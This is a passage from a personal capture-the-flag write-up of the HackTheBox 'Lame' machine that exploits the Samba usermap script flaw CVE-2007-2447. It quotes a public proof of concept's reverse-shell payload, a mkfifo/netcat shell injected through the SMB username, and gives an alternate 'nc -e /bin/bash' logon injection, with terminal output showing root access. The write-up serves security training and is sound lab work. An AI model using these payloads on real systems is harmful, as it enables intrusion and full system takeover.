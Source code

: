 This was potentially progress, as it was no longer evaluating the command on my box - but it wasn't giving me a shell either.

It seemed to be capitalising the command. I wasn't sure how to fix this, so I looked for a PoC script.

## PoC

Googling "CVE 2007 2447 poc" gave me [this exploit](https://github.com/amriunix/CVE-2007-2447). I cloned it:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame]
└─$ git clone https://github.com/amriunix/CVE-2007-2447.git
```

This exploit builds the following payload:

```python
payload = 'mkfifo /tmp/hago; nc ' + lhost + ' ' + lport + ' 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago'
username = "/=`nohup " + payload + "`"
```

I grabbed the `pysmb` library:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame/CVE-2007-2447]
└─$ /usr/bin/python2 -m pip install pysmb
```

Then executed:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame/CVE-2007-2447]
└─$ python2 usermap_script.py 10.10.10.3 445 10.10.14.13 9001
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
```

Sure enough:

![](/assets/images/blogs/Pasted image 20210503224059.png)

The shell pops us out as root, so we can grab both flags:

![](/assets/images/blogs/Pasted image 20210503224421.png)

There's no fancy 'you rooted Lame' screen for this one, as we had already cracked this box on the SESH account. Either way, that's the box!

## Alternate Method

After reading [0xdf's writeup](https://0xdf.gitlab.io/2020/04/07/htb-lame.html) I realised I could have used an alternate command to login to SMB after connecting, and supplied the payload there:

```bash
smb: \> logon "./=`nohup nc 10.10.14.13 9001 -e /bin/bash`"
```

# Tags

#writeup #oscp-prep #cve #smb 